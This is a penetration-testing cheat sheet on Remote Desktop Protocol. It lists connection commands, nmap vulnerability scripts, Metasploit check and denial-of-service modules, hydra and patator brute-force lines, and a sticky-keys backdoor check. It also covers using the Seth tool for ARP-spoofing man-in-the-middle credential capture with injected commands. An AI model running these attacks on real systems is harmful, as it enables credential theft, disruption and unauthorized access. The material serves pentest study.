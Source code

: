 # 🟡 RDP

### <mark style="color:orange;">remote connect</mark>

{% hint style="info" %}
**remember when you access an active RDP session the current user will be kicked off**
{% endhint %}

remote desktop connection from linux

```
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### <mark style="color:orange;">nmap</mark>

```
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### <mark style="color:orange;">metasploit modules</mark>

```
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### <mark style="color:orange;">rdp-sec-check</mark>

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### <mark style="color:orange;">brute force</mark>

```
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### <mark style="color:orange;">Man-in-the-middle attack on RDP</mark>

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### <mark style="color:orange;">Sticky-keys & Utilman</mark>

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```
sticky-keys-hunter TARGET_IP
```

## <mark style="color:red;">RDP MitM</mark>

{% embed url="https://github.com/SySS-Research/Seth" %}

Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials. It was developed to raise awareness and educate about the importance of properly configured RDP connections in the context of pentests, workshops or talks. The author is Adrian Vollmer (SySS GmbH).

```
git clone https://github.com/SySS-Research/Seth.git
cd Seth 
pip install -r requirements.txt

./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>] 
```

{% hint style="info" %}
Note: The last IP address must be that of the gateway, this can only change if the victim’s computer shares a subnet with the RDP host.
{% endhint %}

The last parameter is optional. It can contain a command that is executed on the RDP host by simulating WIN+R via key press event injection. Keystroke injection depends on which keyboard layout the victim is using - currently it's only reliable with the English US layout. I suggest avoiding special characters by using `powershell -enc <STRING>`, where STRING is your UTF-16le and Base64 encoded command. However, `calc` should be pretty universal and gets the job done.

\
The shell script performs ARP spoofing to gain a Man-in-the-Middle position and redirects the traffic such that it runs through an RDP proxy. The proxy can be called separately. This can be useful if you want use Seth in combination with Responder. Use Responder to gain a Man-in-the-Middle position and run Seth at the same time. Run seth.py -h for more information.
